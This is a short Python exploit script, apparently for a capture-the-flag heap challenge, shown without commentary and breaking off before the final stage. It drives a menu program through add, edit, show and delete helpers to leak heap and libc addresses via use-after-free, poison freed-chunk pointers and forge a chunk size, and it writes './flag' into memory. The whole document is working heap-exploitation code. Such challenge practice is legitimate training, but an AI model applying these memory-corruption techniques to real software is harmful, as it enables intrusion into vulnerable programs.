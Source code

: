 ```python
def add(idx,sz):
	cho(1)
	sla('Index:',str(idx))
	sla('Size:',str(sz))

def edit(idx,val):
	cho(2)
	sla('Index:',str(idx))
	ru('Content:')
	sl(val)

def show(idx):
	cho(3)
	sla('Index:',str(idx))

def delete(idx):
	cho(4)
	sla('Index:',str(idx))


for i in range(25):
	add(0,0x78)


add(0,0x38)
delete(0)
show(0)
ru('Content: ')
heap=leak_address()
print('[+]heap: '+hex(heap))


edit(0,p64(heap+0xcb0))
add(0,0x38)
add(0,0x38)
edit(0,p64(0)+p64(0x501-0x20))
add(0,0x58)
delete(0)
show(0)
ru('Content: ')
libcbase=leak_address()-0x1e4ca0
print('[+]libcbase: '+hex(libcbase))


for i in range(24):
	add(0,0x78)
add(0,0x58)
edit(0,'./flag\x00')

add(0,0x28)
delete(0)
add(0,0x58)
delete(0)
add(0,0x78)
delete(0)
add(0,0x48)
delete(0)

add(0,0x68)
delete(0)
edit(0,p64(heap+0x1da0))
add(0,0x68)

```